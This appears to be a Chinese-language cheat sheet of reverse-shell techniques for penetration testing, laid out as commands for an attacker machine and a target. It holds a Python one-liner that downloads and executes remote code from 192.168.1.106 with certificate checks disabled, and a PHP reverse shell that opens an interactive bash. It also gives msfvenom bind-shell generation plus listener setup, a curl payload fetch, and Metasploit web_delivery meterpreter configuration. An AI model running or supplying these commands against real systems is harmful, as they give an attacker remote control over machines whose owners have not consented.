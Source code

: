 **靶机**

弹出的payload开头是python，如果运行错误则改成python3

```bash
python3 -c "import sys;import ssl;u=__import__('urllib'+{2:'',3:'.request'}[sys.version_info[0]],fromlist=('urlopen',));r=u.urlopen('http://192.168.1.106:8080/EgKVny63zGE22', context=ssl._create_unverified_context());exec(r.read());"
```

## PHP

```bash
php -r '$sock=fsockopen("192.168.1.106",9999);exec("/bin/bash -i <&3 >&3 2>&3");'#bash可改为sh或zsh
```

### Msfvenom生成php反弹shell脚本

**攻击机**

```bash
msfvenom -p php/bind_php lport=9999 -f raw > bind_php.php

msfconsole
msf6 > use multi/handler
msf6 exploit(multi/handler) > set lport 9999
msf6 exploit(multi/handler) > set payload php/bind_php
msf6 exploit(multi/handler) > run
```

新开一个终端

```bash
python3 -m http.server
```

**靶机**

```bash
curl http://192.168.1.106:8000/bind_php.php
```

### 通过web_delivery反弹shell：

**攻击机**

```bash
msfconsole
msf6 > use exploit/multi/script/web_delivery
msf6 exploit(multi/script/web_delivery) > set target 1
msf6 exploit(multi/script/web_delivery) > set payload php/meterpreter/reverse_tcp
msf6 exploit(multi/script/web_delivery) > set lhost 192.168.1.106
msf6 exploit(multi/script/web_delivery) > set lport 9999
msf6 exploit(multi/script/web_delivery) > set srvhost 192.168.1.106
msf6 exploit(multi/script/web_delivery) > run -j
```

将弹出的payload在靶机上执行
